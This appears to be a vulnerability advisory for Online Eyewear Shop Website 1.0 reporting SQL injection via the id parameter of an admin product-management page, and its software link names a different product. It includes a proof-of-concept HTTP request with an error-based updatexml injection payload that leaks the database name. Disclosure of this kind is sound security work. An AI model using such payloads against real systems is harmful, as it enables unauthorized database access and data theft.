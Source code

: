 ## Affected version: 
Online Eyewear Shop Website - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/search?q=AC+Repair+and+Services+System

## Vulnerability File:
/oews/admin/?page=products/manage_product

## Description:
Online Eyewear Shop Website 1.0 is vulnerable to unrestricted SQL injection attacks via /oews/admin/?page=products/manage_product, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /oews/admin/?page=products/manage_product&id=1%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=32cto35al185bgmn489u9arakg; __insuarance__logged=1; __insuarance__key=PO3ZYU67VV15JHRDZ5SJ
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 192.168.1.23
Priority: u=1
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/b2bcd1e3-6c44-4782-b0be-8ef4fc8176ba)


## code analysis:

The id parameter in admin_class.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/dfe9f651-8c70-40b4-8142-3232ccb2c2d5)

